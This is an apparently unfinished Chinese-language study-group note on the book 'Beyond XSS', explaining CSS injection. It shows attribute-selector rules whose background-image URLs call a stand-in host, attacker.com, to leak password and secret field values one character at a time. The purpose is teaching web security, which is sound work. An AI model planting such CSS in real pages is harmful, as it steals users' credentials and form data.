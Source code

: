 ```yaml
---
title: 【XSS】不觸發 Javascript 的 XSS 攻擊
tags: ['XSS', 'Web Security']
sidebar_label: 【XSS】不觸發 Javascript 的 XSS 攻擊
sidebar_position: 1
---
```


# 【XSS】不觸發 Javascript 的 XSS 攻擊

:::note
這邊是《Beyond XSS：探索網頁前端資安宇宙》第三章讀書會筆記。
這一樓還在蓋，請稍後再來。
:::

# 3-4：只用 CSS 也能攻擊？CSS Injection 基礎篇

## How：駭客透過 CSS 的哪些特性來進行攻擊？

- CSS Selector：透過 CSS Selector 來選取特定的元素
- image url：可以透過 image url 發送 request 到攻擊者的 server

```css
input[name='password'][value^='a'] {
  background: url('http://attacker.com/?q=a');
}
```

### Recap：幫我白話翻譯一下這段 CSS 是什麼意思？

Q1：

```css
input[name='password'][value^='a'] {
  background: url('http://attacker.com/?q=a');
}
```

A1：選取 name 是 password 且 value 開頭是 a 的 input 欄位，然後將背景圖片設定為 attacker.com/?q=a

## 側錄攻擊(Side Channel Attack)

假設現在有一個 input 欄位

```html
<input name="secret" value="abc123" />
```

可以透過 CSS 的 attribute selector 來偷取 input 欄位的值

```css
input[name='secret'][value^='a'] {
  background: url('http://attacker.com/?q=a');
}

input[name='secret'][value^='b'] {
  background: url('http://attacker.com/?q=b');
}

input[name='secret'][value^='c'] {
  background: url('http://attacker.com/?q=c');
}
```
